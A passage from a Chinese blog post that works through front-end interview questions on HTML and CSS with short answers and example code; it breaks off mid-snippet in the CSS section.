



(注1：面试题目来源依旧是[前端面试每日3+1](<https://github.com/haizlin/fe-intervIEw/issues/198>)，因为我是每50题就另外写一篇博文，所以本文第一题算是总题库的第301题)

(注2：现在是2021年1月12日，这个抄完50题就不再看抄这个前端面试每日3+1了，我是真的要开始进行面试题的准备了，我要自己搜集一些常见的面试题，然后把它弄懂，弄熟。所以决定另写一篇博文了。)

# HTML

## 1.HTML5有哪些应用场景

[HTML5常用标签-应用场景-图文详解（一）](https://blog.csdn.net/w1418899532/article/details/82747602)

## 2.a标签可以再嵌套a标签吗？为什么？如果不行，那又想要嵌套效果怎么解决呢

**a标签不能嵌套a标签**

```
<a href="https://www.baidu.com/" class="parent">
    点击父级标签
    <a href="https://www.baidu.com/" target="_blank" class="child">点击子级标签</a>
</a>
```

**结果在浏览器上解析为,嵌套失败：**

```
<a href="https://www.baidu.com/" class="parent">点击父级标签</a>
<a href="https://www.baidu.com/" target="_blank" class="child">点击子级标签</a>
```

**那么实现嵌套效果（点击子标签时跳转，点击父标签时跳转）：**

1.和上面的布局一样,样式改变如下，给父元素加绝对定位：

[CSS绝对定位absolute详解](https://www.jianshu.com/p/a3da5e27d22b)

```css
.parent {
    display: block;
    position: absolute;
    width: 200px;
    height: 100px;
    border: 1px solid blue;
    text-align: center;
    line-height: 100px;
}
.child {
    color: red;
}
```

2.中间加一层object标签如下(大部分浏览器支持，但是还是存在兼容性)：

```javascript
<a href="https://www.baidu.com/" class="parent">
    点击父级标签
    <object data="" type="">
        <a href="https://www.baidu.com/" target="_blank" class="child">点击子级标签</a>
    </object>
</a>
```

3.还可以不用a标签（随便用什么标签，实现嵌套和跳转功能），加js如下：

```javascript
<div class="parent" id="parent">
  点击父级标签
  <a href="https://www.baidu.com/" target="_blank" rel="noopener noreferrer" class="child" id="child">点击子级标签</a>
</div>
<script>
  window.onload = () => {
      let parent = document.getElementById('parent');
      let child = document.getElementById('child');
      parent.onclick = () => {
          alert("在本页跳转到百度");
          window.location.href = 'https://www.baidu.com/';
      };
      child.onclick = (e) => {
          // 阻止事件默认的向上冒泡行为
          e.stopPropagation();
          alert("打开新页面跳转到百度");
      };
  };
</script>
```

## 3. 说说你对HTML的嵌套规范的理解，都有哪些规范呢

* ul,li/ol,li/dl,dt,dd拥有父子级关系的标签；ul、ol下都只能跟li，dl下只能跟dt、dd。
* p,dt,h标签里面不能嵌套块元素；
* a标签不能嵌套a；
* 行内元素不能嵌套块元素；

## 4.HTML的img标签为什么要添加alt属性呢

**alt 属性是一个必需的属性，它规定在图像无法显示时的替代文本。**

假设由于一些原因，用户无法查看图像，alt属性可以为图像提供替代的信息。比如：

- 网速太慢
- src 属性中的错误
- 浏览器禁用图像
- 用户使用的是屏幕阅读器等

**添加alt属性提示文本的好处有哪些：**

1. 有利于SEO优化，让搜索引擎爬虫蜘蛛爬取关键词
2. 在很多情况下用户无法查看图像，可以让用户明白图片的意思，提高用户体验
3. 便于百度的图片收录和优化，百度会对网站的title以及alt分析，进而分类进行排序

## 5.块级元素不能包含其他块级元素有那些

**嵌套规则：**

1. 块级元素可以包含内联元素或某些块级元素，但内联元素不能包含块级元素，它只能包含其它内联元素。
2. 块级元素不能放在p里面。
3. 有几个特殊的块级元素只能包含内联元素，不能包含块级元素。如h1,h2,h3,h4,h5,h6,p,dt
4. li内可以包含div，p标签中不能有div

## 6.table中给td设置宽度无效怎么解决

默认是列宽度由单元格内容设定
table 添加CSS `tableLayout :fixed;`

## 7.怎么去除img之间存在的间隔缝隙

* 修改`display:block/flex`
* 父级设置`font-size:0`

## 8.给内联元素加float与给块元素加float有什么区别

[float对内联元素和块元素的影响](https://blog.csdn.net/tt_twilight/article/details/72804104)

[CSS 浮动](https://www.w3school.com.cn/css/css_positioning_floating.asp)

## 9.如何解决input在Firefox和Chrome中高度不一致的问题

- 原因是firefox的input的border-width padding 受win10系统的文本大小设置影响

- 设置一样的样式

  ```css
  input{
      box-sizing:border-box;
      height:20px;
  }
  ```

- 将win10 系统的文本大小设置为100%

## 10.可以给内联元素设置宽和高吗？为什么

* 内联元素中的**非置换元素**：不加其他css样式的前提下，不能设置宽高；
* 内联元素中的**置换元素**(根据元素的属性值展示内容的元素)可以直接设置宽高，如: img 、input、textarea等

## 11.你知道著名的3像素Bug指的是什么吗？怎么解决呢

img标签渲染之后下方会出现几个像素（我用谷歌测试是4px, 火狐3.5px）的空白；
img是行内元素，默认display：inline; 它与文本的默认行为类似，下边缘是与基线对齐，而不是贴紧容器下边缘，所以会有几像素的空白；
解决办法：

* 把img设置为`display: block;`
* 给img和其父元素都设置`vertical-align: top；`让其top对齐而不是baseline对齐；
* 给img父元素设置`line-height: 0;`

## 12. IE6文字溢出BUG（别名：多出来的猪、谍影重重）怎么解决呢

- 删除注释或不设置浮动
- [参考文章](http://www.yilingsj.com/div/2013-10-22/100.html)

## 13.对一个元素设置浮动后，它的特征是什么

- 浮动元素脱离正常的文档流
- 浮动元素后的内联元素，将围绕在浮动元素周围
- 浮动元素会造成父元素的高度坍塌

## 14.微软雅黑是有版权的，在页面中使用`font-family:Microsoft YaHei`会不会有版权问题呢

`font-family: Microsoft YaHei`的写法，个人、商用都不会有版权问题，可以放心使用！

但是如果是通过`@font-face`引用微软雅黑的话， 商用是要经过**授权**的！

另外，还有设计图片中使用有版权的字体，商用也是需要**授权**的！切记！

## 15.无

## 16.如何禁止Web端的页面缩放

~~~css
<meta name="viewport" content="width=device-width, initial-scale=1,user-scalable=0">
~~~

其实还有个取巧的办法就是 rem，一般还会设 body 为 12 或 24，当不设时，不管怎么缩放，样式也跟着缩放，就跟没变一样了。

## 17. iframe如何自动调整高度

- 未跨域时，在iframe中利用他的父窗口对象将本页面的滚动高度设置给iframe的height
- 跨域时，在iframe中将自己的的滚动高设置在本页面内的一个隐藏于父页面不跨域的iframe的hash值，
  在隐藏的iframe中将值取出，同未跨域一样设置到要自动调节高度的iframe的height
- [iframe 自动调节](https://www.cnblogs.com/xp1056/p/5583021.html)

## 18.iframe父页面如何获取子页面的元素

- window.frames["iframe的id"].contentDocument.getElementsByClassName("classname")
- document.getElementById('myiframe').contentWindow.
  document.getElementsByClassName("classname")
- $(window.frames["iframe的id"].contentDocument.documentElement).find(".classname")
- $("#myiframe").contents().find(".classname")

## 19.iframe在更改了src之后，不出现后退或者前进按钮怎么解决

- 更改src时可以先删除旧的iframe后，新建一个iframe设置好src添加进去。

## 20.iframe可以使用父页面中的资源吗（如：css、js等）

- iframe 属于一个单独的文档不能直接使用父页面的资源，css的层叠不会影响iframe
- iframe如果和父页面同域则可以在iframe中使用parent对象来使用父页的js对象

## 21.为什么移动端页面的设计稿一般是750px/640px呢

- 750px 代表iphone6或inphone6s 设备的像素(宽)
- 640px 代表inpone3Gs，inpone4/4s iphone5系列 设备的像素(宽)
- 其他手机大多数时这两种规格
- 750px/640px 代表的逻辑像素是 375px/320px，简称2.x 图；所以实际上写css像素时，要除以2
- [参考资料](http://www.mamicode.com/info-detail-2439333.html)

## 22.怎样使用iframe刷新父级页面

~~~javascript
  //在父页面中
  window.addEventListener("message",function(e){
      if(e.data.reload){
           winodw.location.reload()
      }
   
  }, false);
  //在子页面中
  window.parent.postMessage({reload:true})
~~~

## 23.在两个iframe之间传递参数的方法有哪些

* 通过postMessage与父级通过，父级传递消息
* 通过websocket通信
* 如果是同一个域名下
  * 可用stroage，监听storageChange事件通信
  * 通过web worker也可通信

## 24.你知道什么是HTML5plus吗

- 用JS的方式来调用移动app(安卓和ios)的原生能力，例如拍照，摄像

## 25.在普通网页中如何调用HTML5+的plus对象

- `document.addEventListener( "plusready", onPlusReady, false ); `onPlusReady 函数中就可以引用plus对象

## 26.HTML5点击返回键怎样不让它返回上一页

~~~javascript
history.pushState(null, null, document.URL); 
window.addEventListener('popstate', function () { 
    history.pushState(null, null, document.URL); 
});
~~~

## 27.如何禁止移动端的左右划动手势

```css
 html{
 	touch-action:none;
 	touch-action:pan-y;
 }
```

- [参考文章](https://blog.csdn.net/qq_37028216/article/details/88310634)

## 28.你知道`<a>`标签的target属性规定在何处打开链接文档吗

- _self 默认。在相同的框架中打开被链接文档。
- _blank 在新窗口中打开被链接文档。
- _parent 在父框架集中打开被链接文档。
- _top 在整个窗口中打开被链接文档。
- framename 在指定框架名中打开链接文档(没有框架集时，打开标签页并标记为framename，
  再次打开时，在对应标记的标签页中打开)
- [参考资料](https://www.w3school.com.cn/tags/att_a_target.asp)

## 29.如何使用HML5进行图片压缩上传

* 获取到图片的base64格式；
* 图片加载完成后，把图片转化为canvas；
* 使用canvas的toDataURL按照自己的需要进行压缩；
* 把dataURL转化成blob对象；
* 把blob对象转化成formData对象，最后按照ajax接口调用方式提交；

~~~javascript
   function photoCompress(file,options, callback) {
       var ready = new FileReader();
       ready.readAsDataURL(file);
       ready.onload = function () {
           var base64Url = this.result;
           canvasDataURL(base64Url, options, callback)
       }
    }
    //options可以是设置压缩后的图片的宽高或者压缩比例
    function canvasDataURL(base64Url, options, callback) {
       var img = new Image();
       img.src = base64Url;
       img.onload = function () {
           var that = this;
           // 默认按比例压缩
           var w = that.width,
               h = that.height,
               scale = w / h;
           w = options.width || w;
           h = options.height || (w / scale);
           var quality = 0.7; // 默认图片质量为0.7
           //生成canvas
           var canvas = document.createElement('canvas');
           var ctx = canvas.getContext('2d');
           // 创建属性节点
           var anw = document.createAttribute("width");
           anw.nodeValue = w;
           var anh = document.createAttribute("height");
           anh.nodeValue = h;
           canvas.setAttributeNode(anw);
           canvas.setAttributeNode(anh);
           ctx.drawImage(that, 0, 0, w, h);
           // 图像质量
           if (options.quality && options.quality <= 1 && options.quality > 0) {
               quality = options.quality;
           }
           // quality值越小，所绘制出的图像越模糊
           var base64 = canvas.toDataURL('image/jpeg', quality);
           // 回调函数返回base64的值
           callback(base64);
       }
       function convertBase64UrlToBlob(urlData) {
           var arr = urlData.split(','),
               mime = arr[0].match(/:(.*?);/)[1],
               bstr = atob(arr[1]),
               n = bstr.length,
               u8arr = new Uint8Array(n);
           while (n--) {
               u8arr[n] = bstr.charCodeAt(n);
           }
           return new Blob([u8arr], {
               type: mime
           });
       }
       photoCompress(file,{quality:0.1},function(base64Codes){
           var bob = convertBase64UrlToBlob(base64Codes);
           //修改文件名或上传
       })
       //1. 获取到文件对象，转成base64URL，
       //2. 根据base64URL 获取到图片的宽高，生成canvans
       //3. canvans 对象根据压缩比例，生成base64URL
       //4. base64URL生成blob对象
~~~

## 30.怎样避免让用户看到长时间的白屏

* 最最省事的就是花钱加带宽了吧。
* 其次各种技术优化方案，分包合包/压缩/缓存/预加载/部分延迟/服务端渲染等等。
* 再者是视觉优化，骨架图/进度条/广告或游戏/酷炫的加载图等。

## 31.如何去除标签`<i>`默认斜体

设置样式：`font-style: normal;`

## 32.举例说明当我们在写布局时，都有哪些边界的情况需要关注的

**margin 重叠**：在竖直方向，当两个元素的外边距连在一块时，两者的距离并不是两者的 margin 之和，而是取最大的 margin 值。

## 33.当img标签中的src图片加载失败时，怎么让它变得更美观呢

```css
 
```

- [参考文章](https://www.cnblogs.com/willingtolove/p/9544576.html)

当默认图也失效，就会陷入死循环，需加变量计数，如果是 vue 的话用 `@error.once` 更妙。

在 onerror 给元素加个类名也阔以，这个就挺 nice 的。

使用定位而覆盖且层级 -1 的伪元素也是阔以的，但需要 img 定宽高。

## 34.HTML如何创建图片热区（img usemap）

```css
  
  <map name="mymap">
  	<area shape="rect" href="a.html" coords="0,0,50,50">
  	<area shape="circle" href="b.html" coords="120,80,50">
  	<area shape="poly" href="c.html" coords="0,0,50,50,100,100,200,200">
  </map>
```

- [参考文章](https://www.cnblogs.com/mq0036/p/3337327.html)

## 35.你有用过图片热区吗？它有什么运用场景

- 点击logo回到主页
- 点击地图区块跳到具体的地方网站

## 36.当HTML中使用map标签时,area中coords值如何精确定位呢

在 `area` 标签上支持的属性有 `shape`、`coords`、`href`、`alt`、`target`、`type`、`download`、hreflang`、`media`、`rel`；

**coords 值如何精确定位**

1. 圆形，在绘制一个圆形时，其 shape='circle'，coords='x,y,r'，这里的 coords 值通过圆心(x,y)和半径r来确定位置和大小；
2. 矩形，在绘制一个矩形时，其 shape='rectangle'，coords='x1,y1,x2,y2'，这里的 coords 值通过两对确定位置顶点的值(x1,y1)和(x2,y2)来确定具体位置和大小；
3. 多边形，在绘制多边形时，其 shapre='palygon'，coords='x1,y1,x2,y2,x3,y3...'，这里的 coords 值通过多对确定位置顶点的值(x1,y1)、(x2,y2)、(x3,y3)... 来确定具体的位置和多边形的大小。

## 37.举例说明Shadow DOM的应用场景有哪些

可以将 shadow DOM 视为“DOM中的DOM”。它是自己独立的DOM树，具有自己的元素和样式，与原始DOM完全隔离。

可以应用在组件中。

- [MDN - 使用 shadow DOM](https://developer.mozilla.org/zh-CN/docs/Web/Web_Components/Using_shadow_DOM)
- https://segmentfault.com/a/1190000017970486
- https://www.jianshu.com/p/e47b103f3b60

## 38.如何禁止input输入的历史记录

- 给form加上 `autocomplete=off` 可以禁止整个表单的历史记录
- 给单个input加上 `autocomplete=off` 可禁止这个input的历史记录
- 比较特殊的是input的类型为password，可以借鉴网易126的操作方式： `autocomplete="new-password"`

## 39.input上传文件可以同时选择多张吗？怎么设置

~~~css
<input type="file" multiple="multiple" value="浏览" />
~~~

## 40. input上传图片怎样触发默认拍照功能

使用 `capture` 属性，`capture` 的值可以是：

* `camera` 打开摄像头
* `user` 打开前置摄像头

* `environment` 打开后置摄像头

> 以上几个属性都不能保证设备会按照设置的一样打开前置或后置摄像头，如果设备不支持的话，它会 使用默认的调用摄像头的行为。

* `camcorder` 打开录像

* `microphone` 打开录音机

## 41. android手机的微信H5弹出的软键盘挡住了文本框，如何解决

```javascript
window.addEventListener("resize", function () {
       if (document.activeElement.tagName == "INPUT" || document.activeElement.tagName == "TEXTAREA") {
           window.setTimeout(function () {
               document.activeElement.scrollIntoViewIfNeeded();
           }, 0);
       }
   })
```

- 表单底部流出一定高的空白

## 42. 编写一个布局，让文字环绕在图片的周围

[web前端入门到实战：CSS让文字环绕图片显示](https://zhuanlan.zhihu.com/p/92029426)

[CSS实现文字环绕图片效果](https://www.jb51.net/css/455117.html)

## 43.编写HTML时，你有没有用过Emmet插件呢？说说它的优点及规则有哪些

用过，vscode编辑器自带支持Emmet语法；
它可以帮助快速编写HTML代码，减少复制粘贴的操作；
常见规则：

**1. > 插入子元素；**

> `ul>li>a`

```CSS
<ul>
  <li><a></a></li>
</ul>
```

**2. + 生成兄弟元素；**

> `div+p+section`

```css
<div></div>
<p></p>
<section></section>
```

**3. * 生成多个相同元素**

> `ul>li *3`

```css
<ul>
  <li></li>
  <li></li>
  <li></li>
</ul>
```

**4. # 和 . 分别生成带id和class的元素**

> `div#submit+div.btn+div#submit.btn`

```css
<div id="submit"></div>
<div class="btn"></div>
<div id="submit" class="btn"></div>
```

我常用的就这几个，更多语法参见[Emmet文档](https://docs.emmet.io/abbreviations/syntax/)

## 44.你是如何理解HTML与CSS分离的

- 实现的是内容和样式的分离，降低了代码的耦合度，增强了可维护度

## 45.什么是表单域？它有哪些运用场景

`<form></form>`标签中间的部分

当点击这个表单域中的submit按钮，就会把表单中的数据提交到你action的属性指定的网页里面

## 46.举例说明锚点定位有什么作用

我们在做一个很长的网页时，需要在页面内做一个导航，点击导航里的链接不是新开一个窗口或者跳转到其他网址，而是跳转到当前页的某一个位置。那么所要跳转到的那个位置，我们就叫做锚点，它是一种**在页面内部定位的方式**。

## 47. HTML6即将到来，你最期待的是什么特性呢

[HTML6什么时候能普及？](https://www.zhihu.com/question/68417460)

## 48.后缀.html和.htm有什么区别

历史遗留问题，原来的结尾只能由三个字母，是一模一样的。

## 49. 使用canvas制作一个印章

~~~javascript
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <div id="app"></div>
</body>

<script>
    var dataUrl = '';
    function createStampUrl() {
      var canvas = document.createElement('canvas');
      canvas.width = 300;
      canvas.height = 200;
      canvas.setAttribute('width', 300);
      canvas.setAttribute('height', 200);
      var ctx = canvas.getContext('2d');

      ctx.beginPath();
      ctx.ellipse(150, 100, 100, 50, 0, 0, Math.PI * 2);
      ctx.fillStyle = "red";
      ctx.strokeStyle = "red";
      ctx.fill();
      ctx.stroke();
      ctx.closePath();

      ctx.beginPath();
      ctx.ellipse(150, 100, 90, 40, 0, 0, Math.PI * 2);
      ctx.fillStyle = "white";
      ctx.fill();
      ctx.stroke();
      ctx.closePath();

      ctx.beginPath();
      ctx.ellipse(150, 100, 70, 30, 0, 0, Math.PI * 2);
      ctx.strokeStyle = "red";
      ctx.lineWidth = 2;
      ctx.stroke();
      ctx.closePath();


      ctx.font = "14px Microsoft YaHei";
      ctx.fillStyle = "red";
      ctx.fillText("hello canvas", 110, 105);

      dataUrl = canvas.toDataURL("image/jpeg");

      var app = document.querySelector("#app");
      app.style.width = "300px";
      app.style.height = "300px";
      app.style.backgroundImage = `url(${dataUrl})`;
      app.style.backgroundRepeat = 'no-repeat';
    }
    createStampUrl();
</script>
</html>
~~~

## 50.如何构建“弱网络环境”友好的项目

采用PWA技术

# CSS

## 1.CSS的哪个属性可以把所有元素或其父元素的属性重置呢



## 2. CSS的`height:100%`和`height:inherit`之间有什么区别呢

[CSS中height:100%和height:inherit的异同](https://www.zhangxinxu.com/wordpress/2015/02/different-height-100-height-inherit/)

**1. 兼容性差异**
`height:100%` IE6+ √
`height:inherit` IE8+ √

**2. 大多数情况作用是一样的**
除去兼容性，大多数情况下，两者作用是一样的，甚至都很难想出不一样的理由。

① 父容器`height: auto`，无论`height:100%`或者`height:inherit`表现都是`auto`.
② 父容器定高`height: 100px`，无论`height:100%`或者`height:inherit`表现都是`100px`高.

难道没有差异吗？难道没有使用`height:inherit`的理由吗？当然有，记住，江湖上所发生的一切事情，都绝非偶然！

**3. 绝对定位大不同**
当子元素为绝对定位元素，同时，父容器的`position`值为`static`的时候，呵呵呵，`height:100%`和`height:inherit`的差异就可以明显体现出来了！

## 3.如何禁止长按保存或复制图像

~~~css
img {pointer-event:none;-webkit-user-select:none;-moz-user-select:none;user-select:none;}
~~~

## 4.img标签是行内元素，为什么却能设置宽高

[为什么img标签是inline元素还可以设置宽高？](https://blog.csdn.net/weixin_42051913/article/details/89478552)

[可替换元素 - CSS：层叠样式表 | MDN](https://developer.mozilla.org/zh-CN/docs/Web/CSS/Replaced_element)

img确实是行内元素 但它也是**可替换元素** 。

**可替换元素**拥有内置宽高，他们可以设置width和height。他们的性质同设置了`display:inline-block`的元素一致。

## 5.CSS中的选择器、属性、属性值区分大小写吗

[CSS对大小写敏感吗？（CSS区分大小写吗？）](https://blog.csdn.net/weixin_39415598/article/details/104098156)

[css属性区分大小写吗？](https://www.html.cn/qa/css3/19447.html)

选择器和属性区分大小写，属性值如果是颜色可以不区分大小写吧。

## 6.说说你对相对定位、绝对定位、固定定位的理解

**position 属性指定了元素的定位类型。**

**position 属性的五个值：**

- static（默认值）
- relative（相对定位）
- fixed（固定定位）
- absolute（绝对定位）
- sticky（粘性定位）

**relative 相对定位**：相对自身元素的原来进行定位。

- 移动相对定位元素，但它原本所占的空间不会改变。
- 相对定位元素经常被用来作为绝对定位元素的容器块。
- 用途
  - 第一个，为微调元素的位置
  - 第二个，做绝对定位的参考(父相子绝)

**absolute 绝对定位**：绝对定位的元素的位置相对于最近的已定位父元素，如果元素没有已定位的父元素，那么它的位置相对于`<html>`（初始包含块）

- absolute 定位使元素的位置与文档流无关，因此不占据空间。
- absolute 定位的元素和其他元素重叠。

**fixed 固定定位**：元素的位置相对于浏览器窗口是固定位置。

- 即使窗口是滚动的它也不会移动
- Fixed定位使元素的位置与文档流无关，因此不占据空间
- Fixed定位的元素和其他元素重叠
- 用途
  - 固定到浏览器窗口固定位置的元素
  - 跟随导航
  - 回到顶部

**sticky 粘性定位**：粘性定位的元素是依赖于用户的滚动，在 position:relative 与 position:fixed 定位之间切换。

- 它的行为就像 position:relative; 而当页面滚动超出目标区域时，它的表现就像 position:fixed;，它会固定在目标位置。
- 元素定位表现为在跨越特定阈值前为相对定位，之后为固定定位。
- 这个特定阈值指的是 top, right, bottom 或 left 之一，换言之，指定 top, right, bottom 或 left 四个阈值其中之一，才可使粘性定位生效。否则其行为与相对定位相同。
- **用途**：页面吸顶效果

**参考**：[Position(定位) | 菜鸟教程](https://www.runoob.com/css/css-positioning.html)

## 7.padding会影响到元素的大小，那不想让它影响到元素的宽度应该怎么办

`box-sizing:border-box`。

## 8.什么是hack？css的hack有哪些

[css中hack是什么](https://www.cnblogs.com/Renyi-Fan/p/9006084.html)

## 9.如何让IE6支持min-width和max-width

- 利用IE特有的css语法

  ```css
  .className {
      max-width:620px;
      min-width:1px;
      _width:expression(this.scrollWidth > 620 ? "620px":(this.scrollWidth < 1? "1px":"auto"));
  }
  ```

- [参考文章](https://www.jb51.net/css/76142.html)

## 10.如何解决IE6浮动时产生双倍边距的BUG

* 当块级元素有浮动样式的时候，给元素添加margin-left和margin-right样式，在ie6下就会出现双倍边距

* 给当前元素添加样式，使当前元素不为块，如：display:inline;display:list-item 这样在元素浮动的时候就不会在ie6下面产生双倍边距的问题了

## 11.你知道什么是面向对象的CSS（oocss）吗？有没有实践过

oocss(Object Oriented CSS)不是一种技术也不是一种语言，它是一种css的书写方法，其核心是用最简单的方式编写最整洁的css代码，使代码更具重用性、可维护性和可拓展性。
OOCSS的两条主要准则：
1.结构和皮肤分离;
2.容器和内容分离;

比如一些常用的字体大小、padding、margin值等可以封装为公共样式，html中引用多个类似的类名达到UI效果，减少特性css的代码量

~~~css
.text-12{ font-size: 12px; } .text-14{ font-size: 14px; } .text-16{ font-size: 16px; }
~~~

## 12.OOCSS有哪些好处？对应的库有哪些

- 有语义的类名，逻辑性强的层次关系
- 可重用，样式和结构的分离，容器和内容的分离
- Kite
- [参考文章](https://blog.csdn.net/zunguitiancheng/article/details/51483416)
- [参考文章](https://www.cnblogs.com/woodk/articles/5147099.html)

## 13. Flex布局的缺点有哪些？（除兼容性外）

- 无法直接定义列数(要使用百分比的方式实现)
- item 如果有多行的话，grid 要比 flex 方便
- 多行布局非常鸡肋，基本没法插件化。
- 当 grow 中有文本超出时，grow 需加上 overflow hidden 才行。

## 14.CSS中哪些属性会引起GPU渲染，会增加耗电吗

transform opacity filter

肆无忌惮的开启GPU硬件加速，会导致大量消耗设备电量，降低电池寿命等问题。

## 15.如何在白天和黑夜自动切换页面的颜色

媒体查询的内容都是设备的属性：宽度高度，旋转方向，打印样式，分辨率
所以用媒体查询的话，需要用户的设备拥有切换黑暗模式的功能
借助 js 切换页面颜色的话，那就是

* 获取地理位置

* 查询日出日落时间

* 根据时间修改全局 theme

## 16.如何给文字的color设置渐变

方法1：

~~~css
  span {
       background: linear-gradient(to right, red, blue);
       -webkit-background-clip: text;
       color: transparent;
   }
~~~

方法2：webkit only

~~~css
.text {
  background: -webkit-linear-gradient(#eee, #333);
  -webkit-background-clip: text;
  -webkit-text-fill-color: transparent;
}
~~~

方法3：还可以用 `-webkit-mask`。

还有种非常特殊的场景可以看下例，类似于视觉残留：
https://forever-z-133.github.io/demos/single/gradient-mask-word2.html

## 17.为什么说CSS中能用子代选择器的时候不要用后代选择器

选择从右到左依次解析匹配，所以后代选择器会去找它的所有父级，而子代选择器只会选择直接的父级；减少匹配次数，提高效率。

## 18.你有没有使用过“形似猫头鹰”（例：`* + *{ ... }`） 的选择器

现在大多这么写：

```CSS
li:not(:first-of-type) {
	margin-top: 1rem;
}
```

可以达到一样的效果

## 19.用CSS画一个五边形和一个六边形

方法1：

五边形：

```css
clip-path: polygon(50% 0%, 100% 38%, 82% 100%, 18% 100%, 0% 38%);
```

六边形：

```css
clip-path: polygon(50% 0%, 100% 25%, 100% 75%, 50% 100%, 0% 75%, 0% 25%);
```

七边形：

```css
clip-path: polygon(50% 0%, 90% 20%, 100% 60%, 75% 100%, 25% 100%, 0% 60%, 10% 20%);
```

方法2：

~~~css
   <style>
   /**五边形**/
   #pentagon {
       position: relative;
       width: 54px;
       border-width: 50px 18px 0;
       border-style: solid;
       border-color: red transparent;
   }
   #pentagon:before {
       content: "";
       position: absolute;
       height: 0;
       width: 0;
       top: -85px;
       left: -18px;
       border-width: 0 45px 35px;
       border-style: solid;
       border-color: transparent transparent red;
   }
   /**六边形**/
   #hexagon {
       width: 100px;
       height: 55px;
       background: red;
       position: relative;
   }
   #hexagon:before {
       content: "";
       position: absolute;
       top: -25px;
       left: 0;
       width: 0;
       height: 0;
       border-left: 50px solid transparent;
       border-right: 50px solid transparent;
       border-bottom: 25px solid red;
   }
   #hexagon:after {
       content: "";
       position: absolute;
       bottom: -25px;
       left: 0;
       width: 0;
       height: 0;
       border-left: 50px solid transparent;
       border-right: 50px solid transparent;
       border-top: 25px solid red;
   }
   </style>
~~~

## 20.使用纯CSS来创建一个滑块

~~~css
   .checke{
            position: relative;
            -webkit-appearance: none;
            width:90px;
            height: 44px;
            line-height: 44px;
            background: #eee;
            border-radius: 30px;
            outline: none;
        }
        .checke:before{
            position: absolute;
            left: 0;
            content: '';
            width: 44px;
            height: 44px;
            border-radius: 50%;
            background: #eee;
            box-shadow: 0px 0px 5px #ddd;
            transition: all 0.2s linear;
        }
 
        .checke:checked{
           background: #18ff0a;
        }
        .checke:checked:before{
            left: 45px;
            transition: all 0.2s linear;
        }
~~~

> 上面实现的是一个 switch 开关，对于 CSS 滑块我理解的是有点像 win10 音量调节这种

## 21.使用CSS3实现一个斑马线的效果

最好的办法是用渐变背景实现

```
linear-gradient( [ [ <angle> | [top | bottom] || [left | right] ],]? <color-stop>[, <color-stop>]+);
/*角度|方向、开始颜色 开始位置、结束颜色 结束位置*/
```

我们将开始位置与结束位置设置为相等或大于，就可以得到条纹图案。

示例：https://codepen.io/xiangshuo1992/pen/qLdWdY （含11个demo）

1. 水平条纹

```css
{
    background: linear-gradient(#fb3 33.3%,
